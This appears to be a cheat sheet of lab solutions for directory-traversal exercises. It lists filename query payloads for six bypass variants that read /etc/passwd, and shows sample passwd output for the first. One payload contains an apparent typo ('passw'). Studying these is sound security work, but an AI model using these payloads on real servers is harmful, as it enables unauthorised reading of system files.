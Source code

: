 # Directory traversal

## File path traversal, simple case
```
image?filename=../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
...
```

## File path traversal, traversal sequences blocked with absolute path bypass
```
image?filename=/etc/passwd
```

## File path traversal, traversal sequences stripped non-recursively
```
?filename=....//....//....//etc/passwd
```

## File path traversal, traversal sequences stripped with superfluous URL-decode
```
?filename=..%252f..%252f..%252fetc/passwd
# Decodes to ..%2f..%2f..%2fetc/passwd
```

## File path traversal, validation of start of path
```
?filename=/var/www/images/../../../etc/passw
```

## File path traversal, validation of file extension with null byte bypass
```
?filename=../../../etc/passwd%00.jpg
```
